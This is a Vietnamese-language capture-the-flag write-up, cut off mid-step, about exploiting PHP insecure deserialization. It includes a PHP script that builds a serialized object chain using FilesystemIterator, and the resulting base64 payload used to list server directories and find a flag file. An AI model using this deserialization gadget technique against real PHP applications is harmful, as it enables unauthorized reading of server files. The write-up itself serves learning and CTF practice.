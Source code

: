   hàm sẽ GET dữ liệu về thông qua `payload` truyền vào, sau đó là chạy hàm unserialize, giải mã base64 và thực thi `payload`  
- Hướng giải bài này:
Giả thiết, thi chạy hàm unserialize thì hàm main sẽ được gọi trước, method `__construct()` và `__destruct()` sẽ chạy, tuy nhiên trong method `__destruct()` tồn tại method `cc()` - không tồn tại trong source. Tiếp đó ta thấy method `__get($method)` có thể method này sẽ gọi method `cc()` nên có lẽ payload sẽ liên quan tới class `do_nothing`
Tiếp đến là ta không thấy được dấu hiệu flag trong source, vậy có thể flag sẽ được giấu trong server hệ thống, vậy nên có thể ta sẽ sử dụng phương pháp `Path travesal` để xâm nhập
Sau khi phân tích thì vẫn tương đối khó hiểu viết payload như nào, nên chúng ta sẽ phải mò xem, payload sẽ là code php được viết lại dựa trên source
Sau khi được senpai cho hint:
![](https://i.imgur.com/5W1PjsI.png)
Hint vẫn hơi còn mông lung, dựa trên hint0, thì sẽ là các class có sẵn, tìm với từ khóa: `Vulnerable class in php path travelsal` tuy nhiên vẫn không có gì hữu dụng cho lắm, sau khi đổi từ khóa thành `Native class file travelsal php`
ta tìm được trang này, sau 1 hồi mò công dụng các class thì mình thấy dược [`FilesystemIterator`](https://www.php.net/manual/en/class.filesystemiterator.php) và [`SplFileObject`](https://www.php.net/manual/en/class.splfileobject.php) là 2 class hợp với hint1
Sau khi tìm hiểu, đến lúc viết thử script
script.php

```php
    <?php

    class do_nothing{
        public function __construct(){
            $this->a = "a"; 
            $this->b = "FilesystemIterator";
        }
    }

    class main{
        public function __construct(){
            //point to class do_nothing
            $this->class = new do_nothing();
            //read all file
            $this->param = "./";
        }
    }

    //make obj point to method main
    $obj = new main();

    //triger method 
    echo (base64_encode((serialize($obj))));

    ?>
```

Sau khi chạy script thì ta được:
`payload=Tzo0OiJtYWluIjoyOntzOjU6ImNsYXNzIjtPOjEwOiJkb19ub3RoaW5nIjoyOntzOjE6ImEiO3M6MToiYSI7czoxOiJiIjtzOjE4OiJGaWxlc3lzdGVtSXRlcmF0b3IiO31zOjU6InBhcmFtIjtzOjI6Ii4vIjt`
![](https://i.imgur.com/y1a863b.png)
Có vẻ tồn tại 1 file hoặc folder là `ahyeah_flag_here_cat_me_plss`
Tiếp tục trong script.php, `./` thay thành `./ahyeah_flag_here_cat_me_plss/` để kiểm tra đây có phải là folder không
![](https://i.imgur.com/EK5IGt7.png)
Vậy là ta tìm thấy file chứa flag là flag.php, sửa lại 1 chút script
